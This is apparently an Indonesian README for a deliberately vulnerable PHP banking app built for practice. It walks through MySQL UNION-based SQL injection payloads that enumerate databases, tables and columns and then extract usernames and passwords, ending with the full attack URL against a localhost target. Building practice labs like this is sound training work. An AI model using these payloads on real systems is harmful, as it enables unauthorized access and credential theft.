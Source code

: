 2. Import database sesuai dengan server database yang digunakan
<img src="perbankan/images/import-sql.gif" width="100%">

#### Target Injeksi 🎯 : 
```
http://localhost/perbankan/daftarpengguna.php?rekening=92774037
```
https://github.com/felix672018159/PHP-Perbankan-Vulnerable/blob/main/perbankan/config.php
#### Kode Injeksi 🔥 :

##### 1. Mysql injection untuk mencari semua nama database
```
union select table_schema,1,2 from information_schema.tables;
```
##### 2. Mysql injection untuk mencari tabel dalam database

   ###### Format :
   ```
   union select table_name,1,2 from information_schema.tables WHERE table_type = 'base table' AND    table_schema='nama database';
   ```
   ###### Contoh :
   ```
   union select table_name,1,2 from information_schema.tables WHERE table_type = 'base table' AND    table_schema='vuln_server_perbankan_felix672018159';
   ```

##### 3. Mysql Injection untuk mencari kolom pada tabel pada database yang dipilih:

   ###### Format :
   ```
   union select column_name,1,2  FROM information_schema.columns WHERE `TABLE_SCHEMA`='<span style="color:red;">nama database</span>' AND `TABLE_NAME`='nama tabel';
   ```
   ###### Contoh :
   ```
   union select column_name,1,2  FROM information_schema.columns WHERE    `TABLE_SCHEMA`='vuln_server_perbankan_felix672018159' AND `TABLE_NAME`='pengguna';
   ```

##### 4. Mysql Injection untuk mendapatkan username dan password :
   ```
   union select password,1,username from vuln_server_perbankan_felix672018159.pengguna;
   ```

#### Cara melakukan Injeksi SQL :
   masukan url berupa gabungan dari target dan kode injeksinya

   ###### contoh :
   ```
   http://localhost/perbankan/daftarpengguna.php?rekening=92774037 union select password,1,username from vuln_server_perbankan_felix672018159.pengguna;
   ```
